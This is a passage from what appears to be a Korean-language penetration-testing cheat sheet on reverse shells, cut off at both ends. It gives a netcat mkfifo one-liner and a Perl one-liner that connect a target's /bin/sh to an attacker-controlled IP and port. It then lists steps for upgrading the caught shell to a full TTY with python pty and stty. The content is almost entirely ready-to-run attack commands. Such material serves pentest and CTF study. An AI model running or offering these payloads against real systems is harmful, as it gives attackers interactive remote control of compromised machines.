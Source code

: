 ### 📎 Netcat 리버스 쉘 (전통적 방법)

```bash
# mkfifo를 이용한 방법
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 공격자IP 1234 >/tmp/f
```

### 📎 Perl 리버스 쉘

```bash
perl -e 'use Socket;$i="공격자IP";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

---

## 5️⃣ TTY 쉘 안정화

### 연결 후 즉시 실행

```bash
# 파이썬으로 PTY 생성
python -c 'import pty; pty.spawn("/bin/bash")'
# 또는
python3 -c 'import pty; pty.spawn("/bin/bash")'

# 환경변수 설정
export TERM=xterm
export SHELL=/bin/bash
```

### 완전한 TTY 만들기

```bash
# 백그라운드로 보내기
Ctrl+Z

# 공격자 터미널에서
stty raw -echo
fg

# 다시 타겟 쉘에서
reset
stty rows 38 cols 116
```

---

## 6️⃣ 네트워크 문제 해결

### 방화벽 확인 및 설정
